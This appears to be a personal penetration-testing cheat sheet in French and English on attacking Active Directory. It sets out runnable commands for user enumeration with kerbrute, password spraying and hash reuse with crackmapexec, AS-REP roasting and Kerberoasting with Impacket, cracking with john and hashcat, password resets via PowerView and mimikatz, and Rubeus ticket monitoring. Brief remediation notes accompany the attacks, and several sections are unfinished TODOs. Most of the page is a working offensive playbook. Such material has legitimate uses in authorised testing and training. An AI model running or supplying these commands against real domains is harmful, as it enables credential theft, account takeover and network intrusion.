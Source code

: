 *Sources :  https://beta.hackndo.com/ ; https://notes.qazeer.io/*
  
# Enumeration
## DC Enumeration
***Find the Domain Controllers of a domain:***   
`PS> nltest /dclist:<domain>`   
The DC is often the DNS server except for specific cases, can be found with dig, ifconfig, ipconfig, etc.    

## User Enumeration 
***User enumeration through Kerberos port 88:***  
`./kerbrute_linux_amd64 userenum --dc 10.10.11.152 -d <domain> /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`
  
 ***Browse through Active Directory:***   
 `ADExplorer.exe` with Sysinternals installed (not flagged because it is a Microsoft-signed tool)    
 `C:> rundll32 dsquery,OpenQueryWindow`  

## Password spraying (Use/Re-use credentials)  
`crackmapexec winrm 192.168.110.52-56 -u "Administrator" -p "P@ssw0rd"`  
`crackmapexec smb 192.168.110.52-56 -u 'Administrator' -p 'PASSWORD' --local-auth`  
 <br>
 Reuse found hashes on the network :   
   
`crackmapexec smb 192.168.110.52-56 -u administrator -H 'LMHASH:NTHASH' --local-auth`  
`crackmapexec smb 192.168.110.0/24 -u administrator -H 'NTHASH'`  
 <br>
# AS_REP Roasting - Not authenticated      
  
https://beta.hackndo.com/kerberos-asrep-roasting/
  
  
## Outils :  
·       Rubeus
·       Impacket : GetNPUsers.py
  
## Explication :  
Lors d’une demande de TGT, l’utilisateur doit, par défaut, s’authentifier auprès du KDC pour que celui-ci lui réponde. Il arrive que cette authentification préalable ne soit pas demandée pour certains comptes, permettant à un attaquant d’abuser de cette configuration.
Lorsque nous avons parlé du fonctionnement de Kerberos, il a été mis en évidence que dans le premier échange (KRB_AS_REQ - KRB_AS_REP), le client doit d’abord s’authentifier auprès du KDC avant d’obtenir un TGT. Une partie de la réponse du KDC étant chiffrée avec le secret du compte client (la clé de session), il est important que cette information ne soit pas accessible sans authentification. Dans le cas échéant n’importe qui pourrait demander un TGT pour un compte donné, et tenter de décrypter la partie chiffrée de la réponse KRB_AS_REP pour retrouver le mot de passe de l’utilisateur ciblé.
  

TODO IMG


## Remédiation :  
Ne pas activer “Do not require Kerberos preauthentication”
  
  
À partir de l’adresse <https://beta.hackndo.com/kerberos-asrep-roasting/>
  
## Exécution  
***Récupération des TGT pour les utilisateurs pour lesquels la preauth Kerberos est désactivée :***  
<br>
`PS > python C:\GetNPUsers.py spookysec.local/ -no-pass -usersfile .\userlist2.txt -dc-ip <dc_ip> -outputfile .\ASREP_Roastable_users.txt`
  
***Puis cracking :***  
`PS> john --wordlist=$wordlist ASREP_Roastable_users.txt`
  
(ou : `PS >  .\hashcat.exe --force -m 18200 -a 0 -o "../hash_res.txt" "../svc-admin.txt"`)
  

# Kerberoasting - Authenticated  

## Outils :  
- ListusersSPNs.ps1  
- Impacket GetUserSPNs.py  
  
## Explications :  
Les comptes de service ont un SPN (Service Principal Name), exemple : www/WEB-SERVER-01.adsec.local  
SPN = combinaison du service + de la machine hébergeant le service 
Pour un utilisateur authentifié et en possesion d'un TGT, il est possible de demander un TGS pour n'importe quel service auprès du KDC. Ce TGS sera chiffré avec le mot de passe du compte possédant le SPN. Les comptes de service ont généralement un mdp robuste (20-30 caractères), cependant il arrive que certains comptes utilisateur ou comptes de service au mot de passe faible possèdent un SPN, il est donc possible pour un utilisateur authentifié et en possesion d'un TGT de requêter un TGS en indiquant ce SPN et de casser le mot de passe du TGS fourni.    
L'attaque se base également sur le fait qu'une partie des tickets de service est chiffrée en utilisant l'un des secrets du compte de service et que le type de chiffrement à utiliser peut être spécifié côté client afin de forcer l'utilisation de la clé RC4. Ainsi, une attaque de cassage hors ligne sur les tickets de service peut être menée pour récupérer le mot de passe en clair du compte de service correspondant.
    
## Remédiation :  
Pas de SPN sur les comptes utilisateurs (ces derniers ont souvent des comptes à mot de passe suivant la politique AD pouvant être bruteforcés), ou alors si VRAIMENT nécessaire, utiliser la fonctionnalité “Managed Service Accounts” (MSA) de Microsoft qui permet de faire en sorte que le mot de passe du compte soit robuste et changé régulièrement et automatiquement  
  
## Exécution  
`ListusersSPNs.ps1`, listing des utilisateurs possédant un SPN :  

`$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")`  
`$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"`     
`$results = $search.Findall()`    
`foreach($result in $results)`    
 &nbsp;&nbsp;&nbsp;`{`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$userEntry = $result.GetDirectoryEntry()`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`Write-host "SPNs"`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`foreach($SPN in $userEntry.servicePrincipalName)`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`{`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$SPN`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`}`  
 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`Write-host ""`  
 &nbsp;&nbsp;&nbsp;`}`      
       
  
À partir de l’adresse <https://beta.hackndo.com/kerberoasting/>
  
  
***Récupération des TGS :***  
<br> 
`C:\Users\Leperche\Desktop\no_scan\impacket-master\examples>python GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<domain_username>`  
  
`impacket-GetUserSPNs -target-domain domain.htb -outputfile kerberoastables.txt -dc-ip 192.168.110.50 -request domain.htb/michael`  
  
***Cracking des TGS :***    
  
`
john --format=krb5tgs --wordlist=/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt TGS_to_crack.txt
`
  
***Affichage des TGS crackés :***  
  
`cat ~/.john/john.pot`
  
# DCSync  
TODO
      
# DCShadow  
TODO  
   
   
# Rights abuse 
## ForceChangePassword abuse
  
```
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'johnfromthegarden' -AccountPassword $NewPassword
```
```  
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::setntlm /user:TargetUser /password:bahouaismorray /server:10.10.110.75" "exit"
```  
    
## Shadow Credentials  
TODO
    
# Post Exploitation  
## Domain/forest trust abuse   
TODO  
  
## Monitoring TGTs  
It is possible to monitor for TGT once on the DC:  
`.\Rubeus.exe monitor /nowrap /interval:2`  
  
Use the `/filteruser:TARGET_DC$` option in order to target specific TGTs  
